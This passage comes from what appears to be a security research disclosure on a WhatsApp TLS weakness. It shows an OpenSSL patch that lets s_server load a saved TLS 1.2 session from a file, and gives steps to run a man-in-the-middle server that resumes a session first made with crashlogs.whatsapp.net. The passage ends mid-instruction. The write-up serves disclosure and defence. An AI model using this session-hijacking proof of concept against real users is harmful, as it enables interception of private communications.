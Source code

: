 Unfortunately, unlike `s_client`, OpenSSL's `s_server` does not allow specifying a master secret or a session ID at the command line for the purpose of accepting resumed TLS 1.2 sessions (i.e. there's no `-psk` equivalent for TLS 1.2). For this purpose, we modified OpenSSL's **ssl/ssl_sess.c** to have `s_server` load a TLS session from an external DER file. Consider it similar to `-sess_in` of `s_client`.

```
+    /* CENSUS: Load the BoringSSL session converted to OpenSSL format. */
+    if(ret == NULL) {
+        int fd;
+        char buf[4096], *bufp = &buf[0];
+        size_t size;
+        SSL_SESSION *session;
+
+        printf("[CENSUS] Loading BoringSSL session from %s\n", SESSION_FILE);
+
+        if((fd = open(SESSION_FILE, O_RDONLY)) >= 0) {
+
+            size = read(fd, buf, sizeof(buf));
+            printf("[CENSUS] Loaded %zu bytes\n", size);
+
+            if((session = d2i_SSL_SESSION(NULL, (const unsigned char **)&bufp, size)) != NULL) {
+                printf("[CENSUS] Session was successfully loaded at %p\n", (void *)session);
+                ret = session;
+            }
+
+            close(fd);
+        }
+    }


```

With this modification, a client can save TLS session information in a DER file, using `-sess_out`, and then have an `s_server` instance load that file during TLS 1.2 handshake. The effect is similar to the `-psk` example demonstrated previously; the client with prior knowledge of the session ID and the master secret will successfully establish the TLS connection.

The corresponding OpenSSL modifications can be found, in our PoC repository [[37](https://github.com/CENSUS/whatsapp-mitd-mitm)], at **openssl-1.1.1f-patches/tls12-mitm.patch**.

Follow the instructions in **tls12_psk_extract/README.md** to prepare an OpenSSL 1.1.1f variant capable of performing TLS 1.2 MitM. When ready, just run the MitM server:

```
$ ./run_server.sh
    ...
    Running TLS v1.2 version
    Using default temp DH parameters
    ACCEPT


```

Using `s_client` attempt to resume the session initially established with **crashlogs.whatsapp.net**, but this time connect to localhost instead. To do this, use the `-sess_in` command line switch, as shown below:
